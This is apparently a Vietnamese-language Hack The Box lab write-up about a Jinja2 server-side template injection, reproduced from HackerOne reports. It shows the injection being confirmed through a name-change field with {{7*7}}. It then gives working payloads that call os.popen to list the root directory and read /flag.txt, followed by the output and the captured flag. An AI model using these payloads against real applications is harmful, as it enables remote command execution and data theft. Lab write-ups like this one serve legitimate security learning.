 ![image](https://github.com/user-attachments/assets/323154e0-d318-464a-a54d-2a025ffcb652)

# ANALYZE

Đây chính là 1 bài lab được dụng lại từ realcase từ report trên trang hackerone

https://hackerone.com/reports/1104349

https://hackerone.com/reports/125980

dựa vào bài báo cáo , thì t có thể kết luận bước đầu là trang web nhiễm lỗ hổng SSTI Jinja2 tại trường username


![image](https://github.com/user-attachments/assets/797cb1b9-c29f-4713-b66c-795b31859b4d)

![image](https://github.com/user-attachments/assets/8f55e9a2-f06e-4d19-bf75-a4ae72ba5775)

Nhưng ở lab dựng lại ở HTB đã filter đi phần nhập username , ta chỉ có thể nhập chữ cái và số , ta ko thể chèn kí tự của jinja2 vào.

nên tôi đã tạo 1 tài khoản bất kì , và trong giao diện có 1 chức năng giúp tôi đổi tên , và tôi đã đổi tên thành `{{7*7}}`

Và BOOM !

![image](https://github.com/user-attachments/assets/06c48fea-d2da-472f-9864-1d7b75a682ba)

# EXPLOIT

Tôi đã chèn đoạn payload này để liệt kê ra toàn bộ thư mục trên hệ thống : 
```
{{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}
```

```
Name: app bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

Bước còn lại thì đơn giản rồi 

```
{{ config.__class__.__init__.__globals__['os'].popen('cat /flag.txt').read() }}
```

# FLAG

```
HTB{v3ry_e4sy_sst1_r1ght?_86aea1c45a605e765b441665365dcabf}
```

